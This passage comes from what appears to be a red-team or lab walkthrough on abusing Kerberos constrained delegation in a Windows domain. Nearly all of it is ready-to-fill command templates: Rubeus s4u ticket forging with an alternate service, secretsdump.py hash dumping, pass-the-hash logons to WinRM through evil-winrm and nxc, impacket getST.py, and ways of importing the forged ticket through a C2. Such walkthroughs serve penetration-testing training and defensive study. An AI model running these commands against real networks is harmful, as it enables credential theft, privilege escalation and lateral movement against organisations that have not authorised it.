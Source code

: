![32](https://i.gyazo.com/21447cf5d00e245e6ebb7beacda4fb18.jpg)

We can use the `altservice` flag to request a ticket for the `HTTP` service which is usable for WinRM.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /altservice:HTTP /nowrap
```

And, now the ticket is usable for the `HTTP` service on `US-MSSQL`, which includes WinRM.

![33](https://i.gyazo.com/b4e8657cde2f695f6d3850ce30ed8b37.jpg)

Alternatively, you can also use your `cifs` ticket to dump hashes on the target machine with `secretsdump.py`; and use the local administrator's hash to log on via WinRM.

```sh
proxychains secretsdump.py -k -no-pass [TARGET_FQDN]
```

![34](https://i.gyazo.com/032952af57ea8025e1cf391ac4744ca6.png)

Now, we can PTH this hash into WinRM with `evil-winrm` or `nxc winrm`.

```sh
proxychains nxc winrm [IP/FQDN] -u [username] -H [hash] --local-auth
proxychains evil-winrm -i [IP/FQDN] -u [username] -H [hash]
```

![35](https://i.gyazo.com/1b933204bd4bb01314c830ad52e6f4bf.png)

#### Linux -> Windows

Similarly, we can perform this same attack but on the Linux side; then we'll transfer the ticket to Windows to verify that it works.

```sh
getST.py -spn [delegated_spn] -impersonate [user_with_local_admin] [controlled_principal] -hashes :[rc4]
```

![36](https://i.gyazo.com/bcaa0f961ac903058c82c927d12e1220.png)

We can verify that our ticket works with `nxc`

```sh
nxc smb [IP/FQDN] --use-kcache
```

![37](https://i.gyazo.com/01a9585cbbf87167c1f2d38b42864316.png)

There are **2** options for transferring this ticket over to Windows:
1. Transforming the `.ccache` to `.kirbi`, and referencing it in `Rubeus.exe ptt /ticket:[ticket.kirbi]`
    * Requires you to drop the ticket to disk, may be difficult if you don't have a C2
2. Transforming the `.ccache` to `.kirbi`, then Base64 encoding it and referencing it in `Rubeus.exe ptt /ticket:[base64_ticket]`
    * If you're using a C2, the length of the ticket may cause argument length issues depending on your C2 protocol
